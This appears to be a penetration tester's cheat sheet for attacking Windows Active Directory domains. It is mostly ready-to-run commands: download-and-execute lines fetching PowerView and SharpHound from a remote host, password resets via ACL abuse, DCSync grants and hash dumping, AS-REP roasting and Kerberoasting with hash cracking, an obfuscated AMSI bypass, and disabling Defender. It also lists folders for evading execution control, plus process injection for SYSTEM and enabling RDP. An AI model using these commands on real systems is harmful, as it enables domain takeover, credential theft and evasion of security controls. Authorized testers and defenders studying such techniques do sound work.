 Active Directory attack
Domain Enumeration + Exploitation
POWERSPLOIT
Use the dev branch or PowerSploit. For an already incredible cheat sheet, check out HarmJ0y's.
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
Get Domain Users
Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv
Get Domain Computers
Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv
SPN Ticket Request
Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation
Enumerate User DACLs
1
PS C:\> Get-DomainObjectAcl -Identity it_admin -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID burmat) }
2
​
3
AceType               : AccessAllowed
4
ObjectDN              : CN=it_admin,CN=Users,DC=BURMAT,DC=CO
5
ActiveDirectoryRights : GenericAll
6
OpaqueLength          : 0
7
ObjectSID             : S-1-5-21-2736429227-4547413232-2815246478-1130
8
InheritanceFlags      : None
9
BinaryLength          : 36
10
IsInherited           : False
11
IsCallback            : False
12
PropagationFlags      : None
13
SecurityIdentifier    : S-1-5-21-2736429227-4547413232-2815246478-1107
14
AccessMask            : 983551
15
AuditFlags            : None
16
AceFlags              : None
17
AceQualifier          : AccessAllowed
Copied!
Reset Domain User Password
If you own the owner of another AD user object (WriteOwner, WriteDACL, GenericWrite, Owner, etc), you can reset the password with ease:
1
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
2
​
3
$user = 'DOMAIN\owner_acct'; 
4
$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force; 
5
$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
6
​
7
$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force; 
8
​
9
Set-DomainUserPassword -Identity 'DOMAIN\vuln_user' -AccountPassword $newpass -Credential $creds;
Copied!
Or if you can set yourself as owner, the following will do:
1
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
2
Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
3
Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
4
$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
5
Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass
Copied!
Add/Exploit DCSync Rights
Do you have WriteDACL to a domain? Give DCSync rights to an unprivileged domain user account:
Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync
And use these rights to dump the hashes from the domain:
meterpreter > dcsync_ntlm BURMATCO\\useracct1
BLOODHOUND
Ingestor Launch
1
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
2
Invoke-BloodHound -CollectionMethod All -CompressData -SkipPing;
Copied!
LDAP QUERIES
Below are some useful LDAP queries that will help you enumerate a system. Some of them require a valid username/password to get more information. My go-to for these queries is ldapsearch:
1
ldapsearch -LLL -x -H ldap://burmat.co -D "svc-burmat" -w "burmat123$" -b "dc=burmat,dc=co" "<LDAP QUERY HERE>"
Copied!
ASREPRoast Accounts
1
## ldap filter to find accounts susceptible to this:
2
"(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
3
​
4
## generate a list of user accounts and use impacket to exploit:
5
python GetNPUsers.py -request -no-pass -dc-ip 10.1.1.123 burmat.co/ -usersfile users.txt
6
​
7
## and if you get a ticket, you can crack it:
8
hashcat -m 18200 -a 0 --force user.hash /usr/share/wordlists/rockyou.txt
Copied!
User Account Objects with SPNs
1
"(&(&(servicePrincipalName=*) (UserAccountControl:1.2.840.113556.1.4.803:=512)) (!(UserAccountControl:1.2.840.113556.1.4.803:=2)))"
2
​
3
## if you get valid domain credentials, you can dump them w/ impacket for offline cracking:
4
python GetUserSPNs.py -request burmat.co/svc-burmat:burmat123$
Copied!
User and Computers with Unconstrained Delegation
1
# user:
2
"(&(&(objectCategory=person) (objectClass=user)) (userAccountControl:1.2.840.113556.1.4.803:=524288))"
3
​
4
# computer:
5
"(&(objectCategory=computer) (objectClass=computer) (userAccountControl:1.2.840.113556.1.4.803:=524288))"
Copied!
Domain Administrators
1
"(&(objectClass=user) (memberof:1.2.840.113556.1.4.1941:=CN=Domain Admins,CN=Users,DC=burmat,DC=co))"
Copied!
Group Policies
1
"objectClass=groupPolicyContainer"
Copied!
EVADING AV
Checking Status
1
# is av enabled:
2
PS C:\> Get-MpComputerStatus
3
​
4
# applocker rules:
5
PS C:\> $a = Get-ApplockerPolicy -effective
6
PS C:\> $a.rulecollections
7
​
8
# constrained?:
9
PS C:\> $ExecutionContext.SessionState.LanguageMode
Copied!
PowerShell Bypass with 32-bit
PowerShell disabled for you? Try running the 32-bit copy of it:
C:\windows\syswow64\windowspowershell\v1.0\powershell whoami
Writable Folders for Bypassing Execution Control
Try putting your payload in one of the following directories:
1
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
2
C:\Windows\System32\spool\drivers\color
3
C:\Windows\Tasks
4
C:\windows\tracing
Copied!
Turning Off Defender's RTM
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
AMSI Bypass
1
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
Copied!
PROCESS ELEVATION (via SeDebugPrivilege)
If you run whoami /priv and you see SeDebugPrivilege set to Enabled, you can assume you already have SYSTEM.
One way of doing it, is using decoder's psgetsys.ps1 script once you have a good idea on a PID to inject:
. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864,'C:\temp\burmat443.exe');
You can also gain a MSF session and use the module windows/manage/payload_inject with a PID of your choice.
REMOTE DESKTOP
Enable RDP
1
PS C:\> Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
2
PS C:\> Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
3
PS C:\> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
Copied!
MISCELLANEOUS
1
# list shared folders
2
PS> Get-WmiObject -Class Win32_Share -Computer dc1.burmat.co

